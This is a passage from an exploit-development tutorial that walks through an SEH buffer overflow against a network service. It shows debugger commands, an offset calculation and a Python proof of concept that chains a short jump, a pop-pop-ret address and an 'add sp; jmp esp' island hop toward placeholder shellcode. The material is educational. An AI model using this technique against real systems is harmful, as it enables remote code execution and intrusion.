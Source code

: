 Running our latest proof of concept, we can perform a search for the NOP instructions followed by the bytes contained in our shellcode variable right after taking our short jump.

	t
	t
	!teb
	s -b 01aee000 01af0000 90 90 90 90 43 43 43 43 43 43 43 43

Very nice! We found our shellcode on the stack starting from 0x01aefc74. Before proceeding, we want to confirm that our shellcode is not truncated in any way. Dumping the full length of the shellcode as DWORDs reveals our entire buffer:
	dd 01aefc70 L65
	
	
Our next step is to determine the offset from our current stack pointer to the beginning of our shellcode. This will allow us to use the limited space we currently have to assemble a set of instructions that will allow us to "island hop", redirecting execution to our shellcode.

To determine this, we can simply use ? to subtract between the memory address of the start of our shellcode (0x01aefc74) and the current value of the stack pointer.
	? 01aefc74 - @esp

Using the limited space available after our short jump, let's assemble a few instructions to increase the stack pointer by 0x830 bytes followed by a "jmp esp" to jump to our shellcode next.

We can accomplish the first step by using an "add esp, 0x830" instruction. If we input this instruction into msf-nasm_shell, however, we notice that it generates null bytes in the opcodes due to the large value:
	msf-nasm_shell 
	add esp, 0x830
	
In order to avoid null bytes, we could use smaller jumps (of less than 0x7F3) until we reach the desired offset. While this is certainly one option, the assembly language provides better alternatives.

Instead of performing an ADD operation on the ESP register, we can reference the SP register in our assembly instruction to do arithmetic operations on the lower 16 bits. Let's try to generate the opcodes for this instruction and confirm it does not contain any bad characters. We will also generate the opcodes for a "jmp esp" instruction, which we'll use to jump to our shellcode right after the stack pointer has been adjusted.


Update proof of concept:
	...
	try:
	  server = sys.argv[1]
	  port = 9121
	  size = 1000
	
	  shellcode = b"\x90" * 8
	  shellcode+= b"\x43" * (400 - len(shellcode))
	
	  inputBuffer = b"\x41" * 124
	  inputBuffer+= pack("<L", (0x06eb9090))  # (NSEH)
	  inputBuffer+= pack("<L", (0x1015a2f0))  # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
	  inputBuffer+= b"\x90" * 2
	  inputBuffer+= b"\x66\x81\xc4\x30\x08"   # add sp, 0x830
	  inputBuffer+= b"\xff\xe4"               # jmp esp
	  inputBuffer+= b"\x90" * (size - len(inputBuffer) - len(shellcode))
	  inputBuffer+= shellcode
	...
	